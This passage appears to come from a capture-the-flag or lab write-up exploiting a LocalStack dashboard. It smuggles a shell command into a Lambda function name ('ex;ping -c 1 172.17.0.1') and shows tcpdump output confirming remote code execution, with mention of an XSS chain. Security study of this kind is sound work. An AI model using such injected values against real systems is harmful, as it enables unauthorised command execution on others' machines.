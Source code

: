 ```

oxdf@hacky$ awslocal lambda create-function --function-name 'ex' --zip-file fileb://index.zip --role arn:aws:iam::123456789012:role/lambda-role --handler index.handler --runtime nodejs12.x
{
    "FunctionName": "ex",
    "FunctionArn": "arn:aws:lambda:us-east-1:000000000000:function:ex",
    "Runtime": "nodejs12.x",
    "Role": "arn:aws:iam::123456789012:role/lambda-role",
    "Handler": "index.handler",
    "CodeSize": 291,
    "Description": "",
    "Timeout": 3,
    "LastModified": "2021-08-25T18:50:03.403+0000",
    "CodeSha256": "RflcSNGUgqyNEvEtX4iMOtjiR8yEmBLyRFZIk3h+BDE=",
    "Version": "$LATEST",
    "VpcConfig": {},
    "TracingConfig": {
        "Mode": "PassThrough"
    },
    "RevisionId": "02efdc6d-506b-489b-861e-97026426a94d",
    "State": "Active",
    "LastUpdateStatus": "Successful",
    "PackageType": "Zip"
}

```

On refreshing the dashboard, first there’s a spinner suggesting it’s loading, and about five seconds later, it shows my lambda:

![image-20210825145206991](https://0xdfimages.gitlab.io/img/image-20210825145206991.png)

I’ll try creating one named `ex;ping -c 1 172.17.0.1` (my local IP on the docker net). On refreshing, again, it takes five to ten seconds, but then it loads:

![image-20210825145440757](https://0xdfimages.gitlab.io/img/image-20210825145440757.png)

There’s also ICMP packets at `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni docker0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on docker0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
14:55:23.581855 IP 172.17.0.2 > 172.17.0.1: ICMP echo request, id 731, seq 1, length 64
14:55:23.581911 IP 172.17.0.1 > 172.17.0.2: ICMP echo reply, id 731, seq 1, length 64

```

This is RCE, and good because it confirms the vulnerability works, even on the latest image. But it’s bad because it shows why it’s failing remotely - the page has to fully load, and my XSS JavaScript is only requesting the page source, so unlike a browser, it doesn’t then try to load and execute all the JavaScript on that page.
